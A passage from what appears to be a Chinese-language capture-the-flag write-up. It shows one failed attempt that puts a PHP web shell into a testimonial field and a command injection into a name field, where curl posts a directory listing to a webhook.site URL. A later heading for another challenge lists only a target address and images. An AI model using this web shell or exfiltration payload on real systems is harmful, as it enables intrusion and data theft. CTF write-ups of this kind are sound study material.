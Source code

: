 #### 1. 塞入PHP backdoor
Your Testimonial:
```php
"<?php system($_GET['customer']); ?> "
```
Your Name:
```
"$ (curl -X POST 'https://webhook.site/b7887e11-230d-4cac-a3e6-372071c3f2d5' -d "$(ls+..)")"
```
> 不可行

## Labyrinth Linguist
![image](https://hackmd.io/_uploads/Byv1y1CTa.png)
http://83.136.248.36:46539/
![image](https://hackmd.io/_uploads/r1zXyJCTT.png)

### Labyrinth Linguist Solution




![image](https://hackmd.io/_uploads/B1xMzb90aa.png)
